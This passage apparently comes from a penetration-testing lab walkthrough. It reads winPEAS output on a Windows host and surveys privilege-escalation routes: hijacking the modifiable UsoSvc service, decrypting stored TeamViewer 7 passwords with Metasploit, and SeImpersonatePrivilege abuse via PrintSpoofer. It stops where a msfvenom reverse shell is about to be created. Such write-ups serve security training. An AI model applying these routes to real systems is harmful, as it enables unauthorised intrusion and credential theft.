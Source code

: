 ```bash
 [!] CVE-2019-1385 : VULNERABLE
 [>] https://www.youtube.com/watch?v=K6gHnr-VkAg
 [!] CVE-2019-1388 : VULNERABLE
 [>] https://github.com/jas502n/CVE-2019-1388
 [!] CVE-2019-1405 : VULNERABLE
 [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-
 events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-
 elevation-to-system-via-the-upnp-device-host-service-and-
 the-update-orchestrator-service/
```

A potentially easier path to escalation is the fact that our account has access to the configuration of the UsoSvc which means that we can change the path of the binary it points to and run our own script or binary. This looks frar more exploitable. But let us continue and look if there is anything else.

```bash
[+] Modifiable Services
 [?] Check if you can modify any service https://book.hacktricks.xyz/
  windows/windows-local-privilege-escalation#services
 LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
 UsoSvc: AllAccess, Start
Looking at the non-Microsoft services on the machine, you will notice 
that there is a service called TeamViewer that is running. This is an 
application that allows remote desktop access.
 [+] Interesting Services -non Microsoft-
 [?] Check if you can overwrite some service binary or perform a DLL 
 hijacking, also check for unquoted paths 
 https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
 TeamViewer7(TeamViewer GmbH - TeamViewer 7)
 ["C:\Program Files (x86)\TeamViewer\Version7\TeamViewer_Service.exe"] -
  Auto - Running
 TeamViewer Remote Software
winPEAS doesn't print out a version but navigating to the director it is 
installed in c:\Program Files (x86)\TeamViewer\Version7, we find a log file 
TeamViewer7_Logfile.log that we can extract the version from
cat TeamViewer7_Logfile.log | findstr -i version
Version: 7.0.43148
AppPath: C:\Program Files (x86)\TeamViewer\Version7\TeamViewer_Service.exe
```

This version of TeamViewer kept an encrypted version of passwords in the Windows registry and the key and IV are known \(https://whynotsecurity.com/blog/teamviewer/\) which means that they can be decrypted. Metasploit has a module to harvest TeamViewer credentials. So this is certainly something we can try.

A final exploit that is open to us is one that makes use of the SeImpersonatePrivilege which can be exploited using Juicy Potato which we have done on another machine earlier in this book. We will do this with another technique using an application called PrintSpoofer \(https://github.com/itm4n/PrintSpoofer\)

Let us start with the TeamViewer exploit. To do this, we will use Metasploit and so we need to get a meterpreter shell. So we can create a meterpreter reverse shell with msfvenom:
